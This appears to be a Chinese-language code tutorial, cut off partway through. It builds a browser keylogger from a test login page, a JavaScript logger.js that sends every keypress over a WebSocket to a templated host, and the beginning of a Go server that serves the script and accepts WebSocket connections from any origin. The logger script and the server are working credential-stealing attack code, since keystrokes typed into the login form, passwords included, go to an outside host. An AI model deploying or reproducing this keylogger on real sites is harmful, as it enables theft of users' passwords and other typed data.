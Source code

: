 一段测试用的HTML代码

 ```HTML
 <!DOCTYPE html>
 <html>
 <head>
  <title>Login</title>
 </head>
 <body>
  <script src='http://localhost:8080/logger.js'></script>
  <form action='/login' method='post'>
  <input name='username'/>
  <input name='password'/>
  <input type="submit"/> 
  </form>
 </body>
 </html>
 ```


一段简单的建立websocket的logger.js (Go模板)

 ```JavaScript
 (function() {
  var conn = new WebSocket("ws://{{.}}/ws");
  document.onkeypress = keypress;
  function keypress(evt) {
  s = String.fromCharCode(evt.which);
  conn.send(s);
  }
 })();
 ```


然后一个用于提供logger.js和处理websocket的服务器,这里用到了[websocket](https://github.com/gorilla/websocket)第三方包

 ```Go
 package main
 
 import (
   "flag"
   "fmt"
   "html/template"
   "log"
   "net/http"
 
   "github.com/gorilla/mux"
   "github.com/gorilla/websocket"
 )
 
 var (
   upgrader = websocket.Upgrader{
     CheckOrigin: func(r *http.Request) bool { return true },
   }
   listenAddr string
   wsAddr     string
   jsTemplate *template.Template
 )
 
 func init() {
   flag.StringVar(&listenAddr, "listen", "", "Address to listen on")
   flag.StringVar(&wsAddr, "ws", "", "Address for WebSocket connection")
   flag.Parse()
   var err error
   jsTemplate, err = template.ParseFiles("logger.js")
   if err != nil {
     panic(err)
   }
 ```